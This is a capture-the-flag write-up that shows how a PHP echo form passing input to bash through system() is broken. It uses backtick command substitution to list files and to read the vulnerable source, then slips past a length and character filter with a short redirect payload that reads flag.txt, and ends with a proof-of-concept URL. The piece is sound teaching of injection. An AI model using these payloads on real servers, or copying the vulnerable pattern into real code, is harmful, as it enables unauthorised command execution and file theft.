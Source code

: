 # $Echo challenge
  
This challenge has a simple HTML page with a php form:
```html
<form method="get" name="index.php">
    <input type="text" name="echo" id="echo" size="80">
    <input type="submit" value="Echo">
</form>
```
I've tested with the string `asd`. It printed `asd` into the page.  
Ok, apparently it prints things into the page, let's play with it.  
  
Firstly, I've tested with a looong string and it printed: `Man that's a mouthful to echo, what even?`.  
Then I tested with an empty string. It printed: `Please don't be lame, I can't just say nothing.`.  
  
So, now I know it prints things. What if I inject a command into it?  
With my bash scripting knowledge I tried two things:  
Tried to inject the command `$(ls)`. It printed: `Hey mate, you seem to be using some characters that makes me wanna throw it back in your face >:(
`. Very funny though.  
  
The other thing which allow to execute code is `` ` `` (backtick). Tried `` `ls` ``. It printed: `index.php`. Nice, it worked!!  
After that I used cat to read the index.php content, which broke the page layout but I could get the content on the source code of the page:  
```php
<?php
    $to_echo = $_REQUEST['echo'];
    $cmd = "bash -c 'echo " . $to_echo . "'";
    if(isset($to_echo)) {
        if($to_echo=="") {
            print "Please don't be lame, I can't just say nothing."; 
        } elseif (preg_match('/[#!@%^&*()$_+=\-\[\]\';,{}|":>?~\\\\]/', $to_echo)) { 
            print "Hey mate, you seem to be using some characters that makes me wanna throw it back in your face >:("; 
        } elseif ($to_echo=="cat") { 
            print "Meowwww... Well you asked for a cat didn't you? That's the best impression you're gonna get :/"; 
        } elseif (strlen($to_echo) > 15) { 
            print "Man that's a mouthful to echo, what even?"; 
        } else { 
            system($cmd); 
        } 
    } else { 
        print "Alright, what would you have me say?"; 
    } 
?>
```
Now I know what is going on. If I input a string which is not empty, do not contain those chars on that regex, is not equal to "cat" and is not greater than 15 chars, the string will be echoed by the command:  
`bash -c 'echo string'`.  
  
So I started to look for the flag by using the old good ls command and I found the flag on the parent directory `` `ls ..` ``:  
`flag.txt html`  
  
Ok, now how can I read this flag.txt file?  
I cannot use `` `cat ../flag.txt` `` because it has more than 15 chars.  
  
Let's check the source code again looking to the keyboard. Which character is not on that regex besides the `` ` `` (backtick)?
The answer is the `<`.  
  
Knowing that the input string will be the argument to the echo command, I can redirect the input which is the keyboard by default by using the `<` to redirect the input from a file. So to read the flag all I need is to run this: `` `<../flag.txt` ``.  
  
Boom, flag printed, challenge done! (I won't show the flag here, go get yourself, punk!).  
  
PoC: `http://CHALLENGEURL/?echo=%60%3C..%2Fflag.txt%60`